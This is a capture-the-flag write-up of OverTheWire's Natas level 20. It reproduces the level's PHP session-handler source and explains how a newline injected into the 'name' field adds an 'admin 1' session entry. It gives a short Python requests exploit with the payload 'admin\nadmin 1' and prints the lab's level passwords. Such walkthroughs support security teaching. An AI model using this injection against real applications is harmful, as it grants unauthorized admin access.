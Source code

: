 # Writeup level 20
In this challenge we are supposed to get admin access again. This time though we have to deal with a session file that gets created and loaded.

**Source Code**

```php
<?

function debug($msg) { /* {{{ */
    if(array_key_exists("debug", $_GET)) {
        print "DEBUG: $msg<br>";
    }
}
/* }}} */
function print_credentials() { /* {{{ */
    if($_SESSION and array_key_exists("admin", $_SESSION) and $_SESSION["admin"] == 1) {
    print "You are an admin. The credentials for the next level are:<br>";
    print "<pre>Username: natas21\n";
    print "Password: <censored></pre>";
    } else {
    print "You are logged in as a regular user. Login as an admin to retrieve credentials for natas21.";
    }
}
/* }}} */

/* we don't need this */
function myopen($path, $name) { 
    //debug("MYOPEN $path $name"); 
    return true; 
}

/* we don't need this */
function myclose() { 
    //debug("MYCLOSE"); 
    return true; 
}

function myread($sid) { 
    debug("MYREAD $sid"); 
    if(strspn($sid, "1234567890qwertyuiopasdfghjklzxcvbnmQWERTYUIOPASDFGHJKLZXCVBNM-") != strlen($sid)) {
    debug("Invalid SID"); 
        return "";
    }
    $filename = session_save_path() . "/" . "mysess_" . $sid;
    if(!file_exists($filename)) {
        debug("Session file doesn't exist");
        return "";
    }
    debug("Reading from ". $filename);
    $data = file_get_contents($filename);
    $_SESSION = array();
    foreach(explode("\n", $data) as $line) {
        debug("Read [$line]");
    $parts = explode(" ", $line, 2);
    if($parts[0] != "") $_SESSION[$parts[0]] = $parts[1];
    }
    return session_encode();
}

function mywrite($sid, $data) { 
    // $data contains the serialized version of $_SESSION
    // but our encoding is better
    debug("MYWRITE $sid $data"); 
    // make sure the sid is alnum only!!
    if(strspn($sid, "1234567890qwertyuiopasdfghjklzxcvbnmQWERTYUIOPASDFGHJKLZXCVBNM-") != strlen($sid)) {
    debug("Invalid SID"); 
        return;
    }
    $filename = session_save_path() . "/" . "mysess_" . $sid;
    $data = "";
    debug("Saving in ". $filename);
    ksort($_SESSION);
    foreach($_SESSION as $key => $value) {
        debug("$key => $value");
        $data .= "$key $value\n";
    }
    file_put_contents($filename, $data);
    chmod($filename, 0600);
}

/* we don't need this */
function mydestroy($sid) {
    //debug("MYDESTROY $sid"); 
    return true; 
}
/* we don't need this */
function mygarbage($t) { 
    //debug("MYGARBAGE $t"); 
    return true; 
}

session_set_save_handler(
    "myopen", 
    "myclose", 
    "myread", 
    "mywrite", 
    "mydestroy", 
    "mygarbage");
session_start();

if(array_key_exists("name", $_REQUEST)) {
    $_SESSION["name"] = $_REQUEST["name"];
    debug("Name set to " . $_REQUEST["name"]);
}

print_credentials();

$name = "";
if(array_key_exists("name", $_SESSION)) {
    $name = $_SESSION["name"];
}

?> 
```
Looking at the source code we can see that the only intresting part is the **mywrite()** and **myread()** functions. I tried to bypass the strspn + strlen function at first to load a diffrent file but that didn't seem to work. Then I noticed that the way how the data is read and written is abusive, because the session file would look something like that:  
key1 value1  
key2 value2  
key3 value3  
And **myread()** will load each line into the session.
So what if we inject our own line. Something like  
name admin  
admin  1  
We can inject it through the Your name: input field. To make a newline we are going to use **\n**.

**Exploit**  

```python
import requests

url = "http://natas20.natas.labs.overthewire.org/index.php?debug=true"
data={"name": "admin\nadmin 1"}

session = "23c8r2ca2gn5mk2180lnild036"

cookies = {'PHPSESSID': session}
r = requests.post(url, cookies=cookies,data=data, auth=("natas20", "eofm3Wsshxc5bwtVnEuGIlr7ivb9KABF"))

print(r.text)

# password: IFekPyrQXftziDEsUr3x21sYuahypdgJ
```

The password is:  
IFekPyrQXftziDEsUr3x21sYuahypdgJ
